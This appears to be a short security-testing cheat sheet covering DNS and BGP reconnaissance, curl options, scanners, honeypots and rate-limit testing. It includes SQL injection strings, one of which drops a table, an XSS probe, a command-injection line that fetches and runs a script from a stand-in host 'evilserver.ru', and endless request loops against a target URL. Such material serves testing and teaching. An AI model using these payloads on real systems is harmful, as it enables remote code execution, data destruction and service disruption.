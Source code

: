 ### BGP
https://ipinfo.io/AS19905
https://bgp.he.net/AS19905


### DNS

dig -t NS 


### Explore Infrastructure

whois <domainname>
dig -t NS <domainname>
dig <domainname>
dig www.domainname
whois <IP address>
IPInfo Search for ASN


### Web Application Attacks

SQL Injection: foo‘ or 1=1;--

SQL Injection: foo‘; drop table students;--

Command Injection: cd /tmp; wget http://evilserver.ru/runme.sh chmod 666 /tmp/runme.sh; bash /tmp/runme.sh; rm /tmp/runme.sh

Cross-Site Scripting: <script>alert(‘xss’);</script>


### Curl Commands

Show what’s going on: -v

Ignore TLS errors: –insecure

Use a different user-agent: -A “Smith User-Agent”

Send a specific header: -H “Referer: https://www.foo.com/”

Don’t show the object: -o /dev/null


### Attack Encoding

https://www.urlencoder.org/


### Honeypots

T-Pot https://github.com/telekom-security/tpotce
dnsenum https://github.com/fwaeytens/dnsenum

### Web Scanning

nikto https://cirt.net/Nikto2
nikto -h <target url>


### Bot Testing

wget https://www.gnu.org/software/wget/
wget -r <target url>

### Rate Control Testing

one line: while true; do curl -v -o /dev/null  http://foosite.rybolov.net/; done

#!/bin/bash
while true;
do
  wget <target url>;
done
